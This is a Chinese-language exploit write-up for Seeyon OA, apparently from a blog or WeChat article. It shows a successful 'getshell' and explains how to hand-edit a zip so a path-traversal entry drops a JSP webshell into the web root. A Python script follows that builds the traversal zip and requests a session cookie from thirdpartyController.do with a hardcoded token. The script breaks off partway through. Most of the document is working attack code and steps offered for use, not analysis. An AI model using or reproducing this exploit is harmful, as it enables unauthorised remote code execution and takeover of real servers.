 ![](https://mmbiz.qpic.cn/mmbiz/7D2JPvxqDTFLHfPb8bEibsj7VDYNMzj0ibGyXUd8Ff4lOdUsvd6EhwjFF7uqiapcgZ2aakNtfQxPvQcwRSCiaYrlZQ/640?wx_fmt=other)

验证结果
----

访问压缩包里的文件进行验证 解压后文件位置位于

```
/seeyon/common/designer/pageLayout/压缩包里文件名
```

成功 getshell  
![](https://mmbiz.qpic.cn/mmbiz/7D2JPvxqDTFLHfPb8bEibsj7VDYNMzj0ibW7Hmqv1J0V8tgw7lqxFpuSlsuOHee6De14IbTEkQ8XKP1Uicrr7XlxA/640?wx_fmt=other)

注：制作 zip 文件
-----------

新建两个文件

```
layout.xml  必须存在否则在利用解压漏洞时会解压失败空内容即可
12345678.txt  可是任意名称与内容 想上传webshell替换成webshell内容与jsp后缀即可
```

```
压缩成 zip 文件
```

使用文本编辑 zip 包把 shell 文件名前三位替换成..\ 修改前和修改后位数不能变否则 zip 文件损坏  
![](https://mmbiz.qpic.cn/mmbiz/7D2JPvxqDTFLHfPb8bEibsj7VDYNMzj0ibaAO3pln87gaMXicBZVv18FlLr1c0j73HRYmK0CjoicNcWlzG739jrm1Q/640?wx_fmt=other)

保存查看效果  
![](https://mmbiz.qpic.cn/mmbiz/7D2JPvxqDTFLHfPb8bEibsj7VDYNMzj0ibYNkEK6iaGhSBeibekkhmnxGREKNcYDcuw1Ia3F9D2uro8UKic1rz1bcsA/640?wx_fmt=other)

反正能用：

```
# coding:utf-8
import time
import requests
import re
import sys
import random
import zipfile
la = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0',
           'Content-Type': 'application/x-www-form-urlencoded'}
def generate_random_str(randomlength=16):
  random_str = ''
  base_str = 'ABCDEFGHIGKLMNOPQRSTUVWXYZabcdefghigklmnopqrstuvwxyz0123456789'
  length = len(base_str) - 1
  for i in range(randomlength):
    random_str += base_str[random.randint(0, length)]
  return random_str
mm = generate_random_str(8)
webshell_name1 = mm+'.jsp'
webshell_name2 = '../'+webshell_name1
def file_zip():
    shell = 'test'   ## 替换shell内容
    zf = zipfile.ZipFile(mm+'.zip', mode='w', compression=zipfile.ZIP_DEFLATED)
    zf.writestr('layout.xml', "")
    zf.writestr(webshell_name2, shell)
def Seeyon_Getshell(urllist):
    url = urllist+'/seeyon/thirdpartyController.do'
    post = "method=access&enc=TT5uZnR0YmhmL21qb2wvZXBkL2dwbWVmcy9wcWZvJ04+LjgzODQxNDMxMjQzNDU4NTkyNzknVT4zNjk0NzI5NDo3MjU4&clientPath=127.0.0.1"
    response = requests.post(url=url, data=post, headers=la)
    if response and response.status_code == 200 and 'set-cookie' in str(response.headers).lower():
        cookie = response.cookies
```